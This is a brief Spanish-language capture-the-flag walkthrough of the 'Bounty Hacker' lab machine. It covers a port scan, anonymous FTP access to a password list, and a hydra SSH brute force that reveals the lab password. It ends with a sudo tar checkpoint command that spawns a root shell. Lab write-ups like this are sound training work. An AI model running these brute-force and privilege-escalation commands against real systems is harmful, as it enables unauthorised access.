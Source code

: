 # Bounty Hacker
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```
## Enum
### FTP
Tenemos login Anonymous habilitado, asi que accedemos como Anonymous y vemos los dos archivos presentes
```
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```
Nos traemos los dos a local y vemos que locks es algo que parece una lista de contraseñas, el otro parece parte del lore de la room, aunque nos deja un usuario, lin

```
hydra -l lin -P locks.txt ssh://10.10.239.220
[22][ssh] host: 10.10.239.220   login: lin   password: RedDr4gonSynd1cat3

```

Nos conectamos como lin y leemos la user.txt

## Privesc
```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ejecutamos
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
Y listo
